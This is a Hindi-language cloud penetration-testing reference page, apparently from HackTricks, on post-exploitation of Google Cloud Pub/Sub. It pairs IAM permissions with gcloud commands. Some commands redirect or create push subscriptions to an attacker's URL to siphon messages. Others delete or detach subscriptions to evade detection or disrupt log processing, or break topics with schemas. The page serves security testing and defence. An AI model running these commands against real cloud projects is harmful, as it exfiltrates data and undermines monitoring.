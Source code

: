 # GCP - Pub/Sub पोस्ट एक्सप्लोइटेशन

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पृष्ठ देखें:

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

एक विषय में एक संदेश प्रकाशित करें, **अप्रत्याशित डेटा भेजने** और अप्रत्याशित कार्यक्षमताओं को ट्रिगर करने या कमजोरियों का लाभ उठाने के लिए उपयोगी:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से एक सदस्यता को रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

सदस्यता को संदेश प्राप्त करने से रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।\
यह संभव है कि एक विषय को हटाया जाए, भले ही उस पर सदस्यताएँ जुड़ी हों।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग किसी विषय की सेटिंग को अपडेट करने के लिए करें ताकि इसे बाधित किया जा सके, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

अपने लिए किसी भी पिछले हमले को करने की अनुमति दें।

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

एक वेब सर्वर में सभी संदेश प्राप्त करें:
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
सदस्यता बनाएं और इसका उपयोग **संदेश खींचने** के लिए करें:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**एक सदस्यता हटाना** एक लॉग प्रोसेसिंग सिस्टम या कुछ समान को बाधित करने के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

इस अनुमति का उपयोग कुछ सेटिंग को अपडेट करने के लिए करें ताकि संदेश एक ऐसी जगह संग्रहीत हों जहाँ आप पहुँच सकते हैं (URL, Big Query तालिका, बकेट) या बस इसे बाधित करने के लिए।
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

अपने आप को उन हमलों को करने के लिए आवश्यक अनुमतियाँ दें जिनका पहले उल्लेख किया गया था।

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक स्कीमा को एक विषय से जोड़ें ताकि संदेश इसे पूरा न करें और इसलिए विषय बाधित हो जाए।\
यदि कोई स्कीमा नहीं है, तो आपको एक बनाने की आवश्यकता हो सकती है।
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

यह ऐसा लग सकता है जैसे आप एक स्कीमा को हटा रहे हैं जिससे आप ऐसे संदेश भेज सकेंगे जो स्कीमा को पूरा नहीं करते। हालाँकि, चूंकि स्कीमा हटा दिया जाएगा, कोई भी संदेश वास्तव में विषय के अंदर नहीं जाएगा। इसलिए यह **व्यर्थ** है:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

अपने आप को उन हमलों को करने के लिए आवश्यक अनुमतियाँ दें जिनका पहले उल्लेख किया गया था।

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

यह सभी अन-ACK किए गए संदेशों का एक स्नैपशॉट बनाएगा और उन्हें सब्सक्रिप्शन में वापस डाल देगा। एक हमलावर के लिए यह बहुत उपयोगी नहीं है लेकिन यहाँ यह है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
